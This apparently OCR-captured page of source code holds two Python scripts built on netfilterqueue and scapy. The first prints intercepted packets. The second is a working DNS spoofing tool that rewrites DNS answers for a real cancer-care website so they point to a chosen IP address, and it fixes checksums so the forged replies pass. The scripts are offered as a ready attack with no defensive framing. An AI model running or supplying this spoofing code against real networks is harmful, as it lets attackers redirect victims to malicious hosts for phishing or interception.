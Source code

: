 #### Converting packets to scapy packets
```python
#!/usr/bin/env python3 

import netfilterqueue as nq
import scapy.all as scapy

def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    print(scapy_packet.show())
    packet.accept()

queue = nq.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```

#### DNS spoofing
```python
#!/usr/bin/env python3 

import netfilterqueue as nq
import scapy.all as scapy

web_add = "www.bccancer.bc.ca"
redirect_ip = "10.0.2.15"

def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    #Checking for DNS response using DNSRR. Use DNSQR for DNS requests
    if scapy_packet.haslayer(scapy.DNSRR):
        qname =scapy_packet[scapy.DNSQR].qname
        #print(qname)
        if web_add in str(qname):
            print("[+] Spoofing target")

            #Creating a DNS response and redirect it to any ip address
            answer = scapy.DNSRR(rrname = qname, rdata= redirect_ip)
            scapy_packet[scapy.DNS].an = answer
            scapy_packet[scapy.DNS].ancount = 1

            # delete the len and chkcum in the IP and UDP layers
            # to prevent corruption  our modified data
            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].len
            del scapy_packet[scapy.UDP].chksum

            packet.set_payload(bytes(scapy_packet))

        #print(scapy_packet.show())
    packet.accept()

queue = nq.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()


```
> Always run iptables --flush after modifying iptables.
